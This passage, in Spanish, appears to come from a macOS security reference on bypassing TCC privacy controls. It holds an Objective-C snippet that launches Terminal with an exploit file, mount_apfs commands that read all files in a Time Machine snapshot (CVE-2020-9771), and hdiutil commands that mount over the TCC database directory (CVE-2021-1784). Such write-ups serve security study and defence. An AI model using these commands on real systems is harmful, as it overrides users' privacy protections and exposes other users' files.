 ```objectivec
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```
## Montando

### CVE-2020-9771 - bypass de TCC de mount_apfs y escalada de privilegios

**Cualquier usuario** (incluso los no privilegiados) puede crear y montar un snapshot de Time Machine y **acceder a TODOS los archivos** de ese snapshot.\
El **único privilegio** necesario es que la aplicación utilizada (como `Terminal`) tenga acceso de **Acceso Completo al Disco** (FDA) (`kTCCServiceSystemPolicyAllfiles`), que debe ser concedido por un administrador.
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
Una explicación más detallada se puede [**encontrar en el informe original**](https://theevilbit.github.io/posts/cve_2020_9771/)**.**

### CVE-2021-1784 & CVE-2021-30808 - Montar sobre el archivo TCC

Incluso si el archivo de la base de datos TCC está protegido, era posible **montar sobre el directorio** un nuevo archivo TCC.db:
```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```
